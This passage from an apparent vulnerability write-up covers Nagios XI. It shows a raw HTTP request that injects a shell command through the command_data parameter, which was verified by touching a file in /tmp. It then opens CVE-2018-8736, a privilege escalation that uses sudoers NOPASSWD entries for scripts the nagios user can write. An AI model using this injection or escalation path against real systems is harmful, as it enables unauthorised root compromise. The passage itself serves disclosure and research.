 ```
POST /nagiosxi/backend/index.php HTTP/1.1
Host: 10.20.1.179
Content-Type: application/x-www-form-urlencoded
Cookie: nagiosxi=eb8pa9098grmgummu2pnofq3f5
Content-Length: 66

cmd=submitcommand&command=1111&command_data=$(your_command_here)
```

These POST requests get back responses that don't immediately suggest command injection:

```
<?xml version="1.0" encoding="utf-8"?>
<result>
<code>0</code>
<message>OK</message>
<command_id>12</command_id>
</result>
```

but white-box testing allows us to simply touch a file to /tmp, and then verify it's existence out of band:

{% highlight shell  %}
[root@nagiosxi_host tmp]# ls -l
...
-rw-r--r--  1 nagios nagios       0 Apr 13 02:21 testing
...
{% endhighlight %}

[+] We have command injection!

[-] It's authenticated, and requires admin level authorization.

### CVE-2018-8736 - local privilege escalation

Finally, we went looking for some local privilege escalation, for reasons which may be becoming obvious at this point. Generally, a good first place to look when looking for local privesc on a linux environment is the sudoers file. Here's an excerpt of the Nagios `/etc/sudoers` file:

```
...
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/html/includes/components/profile/getprofile.sh
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/scripts/upgrade_to_latest.sh
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/scripts/change_timezone.sh
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/scripts/manage_services.sh *
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/scripts/reset_config_perms.sh
NAGIOSXI ALL = NOPASSWD:/usr/local/nagiosxi/scripts/backup_xi.sh *
...
```

This is very interesting to us, especially if file permissions on those files allow write access to the nagiosxi user, which, in fact, they do:

{% highlight shell  %}
[root@nagiosxi_host ]# ls -l /usr/local/nagiosxi/scripts/
...
-rwxr-xr-x 1 nagios nagios   1664 Dec 28  2016 change_timezone.sh
-rwxr-xr-x 1 nagios nagios   2303 Dec 28  2016 manage_services.sh
-rwxr-xr-x 1 nagios nagios   2681 Dec 28  2016 upgrade_to_latest.sh
-rwxr-xr-x 1 nagios nagios   1010 Dec 28  2016 reset_config_perms.sh
-rwxr-xr-x 1 nagios nagios   5673 Dec 28  2016 backup_xi.sh
...
{% endhighlight  %}
